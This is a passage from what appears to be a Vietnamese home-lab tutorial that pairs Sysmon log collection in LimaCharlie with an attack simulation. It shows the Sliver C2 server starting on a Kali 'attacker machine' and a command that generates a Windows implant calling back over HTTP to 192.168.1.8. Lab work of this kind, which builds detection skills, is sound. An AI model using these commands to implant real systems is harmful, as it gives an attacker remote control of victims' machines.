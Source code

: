 ![alt text](image-2.png)

Vào mục Artifact Collection, và tạo artifact rule như trên để đẩy log từ sysmon trên máy win client về limacharlie.

# Install C2 framework on Kali - attacker machine

```
┌──(root㉿kali)-[/home/kali]
└─# sliver-server 
Connecting to localhost:31337 ...

          ██████  ██▓     ██▓ ██▒   █▓▓█████  ██▀███                                          
        ▒██    ▒ ▓██▒    ▓██▒▓██░   █▒▓█   ▀ ▓██ ▒ ██▒                                        
        ░ ▓██▄   ▒██░    ▒██▒ ▓██  █▒░▒███   ▓██ ░▄█ ▒                                        
          ▒   ██▒▒██░    ░██░  ▒██ █░░▒▓█  ▄ ▒██▀▀█▄                                          
        ▒██████▒▒░██████▒░██░   ▒▀█░  ░▒████▒░██▓ ▒██▒                                        
        ▒ ▒▓▒ ▒ ░░ ▒░▓  ░░▓     ░ ▐░  ░░ ▒░ ░░ ▒▓ ░▒▓░                                        
        ░ ░▒  ░ ░░ ░ ▒  ░ ▒ ░   ░ ░░   ░ ░  ░  ░▒ ░ ▒░                                        
        ░  ░  ░    ░ ░    ▒ ░     ░░     ░     ░░   ░                                         
                  ░      ░  ░ ░        ░     ░  ░   ░                                         
                                                                                              
All hackers gain jump-start
[*] Server v1.5.43 - e116a5ec3d26e8582348a29cfd251f915ce4a405
[*] Welcome to the sliver shell, please type 'help' for options

[*] Check for updates with the 'update' command

sliver > generate --http 192.168.1.8 --save /opt/sliver

[*] Generating new windows/amd64 implant binary
```